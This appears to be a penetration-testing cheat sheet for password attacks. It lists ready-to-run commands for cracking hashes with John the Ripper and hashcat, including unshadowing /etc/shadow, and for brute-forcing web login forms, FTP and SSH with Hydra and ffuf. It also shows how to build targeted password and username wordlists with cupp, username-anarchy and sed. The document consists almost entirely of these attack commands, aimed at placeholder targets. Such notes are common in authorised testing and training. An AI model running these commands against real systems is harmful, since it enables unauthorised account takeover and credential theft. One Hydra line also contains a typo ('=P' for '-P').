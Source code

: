 ## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```
Learn more about hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes).
### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success.:H=Cookie: PHPSESSID=abcd1234" -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
#### SSH
```bash
hydra -L harry.txt -P /usr/share/wordlists/rockyou.txt -u 10.10.10.10 ssh -o results.txt -vV
```
> Note: The `-u` parameter tests every username for every password row, instead of the other way around.
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
## Custom Wordlist
### Generate Password Wordlist Using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```
### Generate Password Wordlist Using Cupp
```bash
cupp -i # interactive; just follow it
```
### Generate Username Wordlist Using Username-Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt
```

We can also use tools like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist) to add as many alterations and permutations as possible into our wordlist.

Additionally, we can then use `sed` to further customize the generated wordlist to follow the target's password policy. For example:
```bash
sed -ri '/^.{,7}$/d' custom-password.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-password.txt # remove no special chars
sed -ri '/[0-9]+/!d' custom-password.txt            # remove no numbers
```